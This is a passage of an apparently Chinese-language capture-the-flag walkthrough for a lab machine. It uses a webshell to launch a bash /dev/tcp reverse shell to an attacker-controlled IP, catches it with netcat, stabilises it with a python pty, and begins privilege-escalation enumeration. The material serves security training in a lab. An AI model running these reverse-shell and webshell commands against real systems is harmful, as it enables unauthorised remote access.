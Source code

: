    

4. 利用webshell执行`bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'`获取reverse shell，在web端访问需要进行url编码

   ```
   └─# curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.16.11/4444%200%3E%261%27
   
   └─# nc -nvlp 4444                                                    
   listening on [any] 4444 ...
   connect to [10.10.16.11] from (UNKNOWN) [10.10.11.242] 47952
   bash: cannot set terminal process group (857): Inappropriate ioctl for device
   bash: no job control in this shell
   www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ whoami
   whoami
   www-data
   www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ 
   ```

5. 稳固shell

   ```
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   export TERM=xterm
   Ctrl + Z 将 shell 置入后台。回到我们自己的终端，我们使用stty raw -echo; fg
   ```

   

# 03、特权升级

## 3.1 枚举

1. 目标机器是ubuntu 20.04，内核版本是5.4.0-167。没有找到可以直接利用的内核漏洞

   ```
   www-data@devvortex:/home/logan$ uname -a                                                                                                    
   Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux                               
   www-data@devvortex:/home/logan$ cat /etc/os-release                                                                                         
   NAME="Ubuntu"                                                                                                                               
   VERSION="20.04.6 LTS (Focal Fossa)"                                                                                                         
   ID=ubuntu                                                                                                                                   
   ID_LIKE=debian                                                                                                                              
   PRETTY_NAME="Ubuntu 20.04.6 LTS"                                                                                                            
   VERSION_ID="20.04"                                                                                                                          
   HOME_URL="https://www.ubuntu.com/"                                                                                                          
   SUPPORT_URL="https://help.ubuntu.com/"                                                                                                      
   BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"                                                                                         
   PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
   VERSION_CODENAME=focal
   UBUNTU_CODENAME=focal
   ```
